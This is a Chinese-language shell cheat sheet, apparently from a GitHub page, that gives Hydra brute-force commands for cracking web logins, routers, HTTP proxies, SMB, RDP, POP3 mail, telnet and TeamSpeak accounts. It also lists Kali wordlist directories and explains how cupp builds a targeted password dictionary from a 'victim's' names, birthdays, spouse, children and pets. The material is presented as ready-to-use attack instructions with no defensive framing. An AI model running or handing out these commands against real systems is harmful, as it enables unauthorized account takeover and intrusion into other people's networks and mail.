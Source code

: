 ~~~shell

# https 破解web登录
hydra -m /index.php -l 用户名 -P 密码字典.txt IP地址 https

# http-get 路由器破解
hydra -l admin -x 6:10:1a.~!@#$%^&()-= 192.168.1.1 http-get /
# -x 6:10:1a. 表示枚举的密码由 数字、小写字母和单字符’.'等等组成，长度为 6 - 10 位。

# http-proxy 破解
hydra -l admin -P 字典.txt http-proxy://IP地址

# smb 破解
hydra -l 用户名 -P 密码字典 IP地址 smb

# rdp破解，即windows远程登录破解
hydra -l administrator -P 密码字典.txt -V ip地址 rdp

# pop3破解，即邮箱破解
hydra -l 用户名 -P 密码字典.txt my.pop3.mail pop3

# telnet破解
hydra -l 用户字典.txt -P 密码字典.txt -s 23 -e ns -f -V ip地址 telnet 

# 语音通讯工具teamspeak破解
hydra -l 用户名字典 -P 密码字典.txt -s 端口号 -vV ip teamspeak


# 暴力破解能成功最重要的条件还是要有一个强大的密码字典！Kali默认自带的字典在 /usr/share/wordlists 目录下
# dirb 目录下
#   big.txt #大的字典
#   small.txt #小的字典
#   catala.txt #项目配置字典
#   common.txt #公共字典
#   euskera.txt #数据目录字典
#   extensions_common.txt #常用文件扩展名字典
#   indexes.txt #首页字典
#   mutations_common.txt #备份扩展名
#   spanish.txt #方法名或库目录
#   others #扩展目录，默认用户名等
#   stress #压力测试
#   vulns #漏洞测试
# dirbuster目录下
#   apache-user-enum-** #apache用户枚举
#   directories.jbrofuzz #目录枚举
#   directory-list-1.0.txt #目录列表大，中，小 big，medium，small
# fern-wifi目录
#   common.txt #公共wifi账户密码
# metasploit目录下有各种类型的字典

# cupp是一款基于python编写的可交互性的密码字典生成工具。结合社会工程学，你会获得一份根据个人信息生成的专属字典。与传统字典相比，其优势在于准确率更高。
# cupp 安装 apt-get install  cupp
sudo cupp [参数]
# -i：进入交互式命令行通过填写信息创建用户密码字典
#       填写受害人姓、名、绰号、生日
#       填写受害人配偶的名字、绰号、生日
#       填写孩子的名字、绰号、生日
#       填写宠物的名字以及公司的名字
#       是否添加一些关于受害人的关键词
#       是否在密码结尾添加一些特殊字符
#       是否在密码结尾添加一些随机数字
#       最终生成字典
# -w：在已存在的字典进行扩展
# -l：选择从github仓库下载不同国家的字典，最后的序号是退出交互式命令，cupp -l 填写你想要下载字典的序号
~~~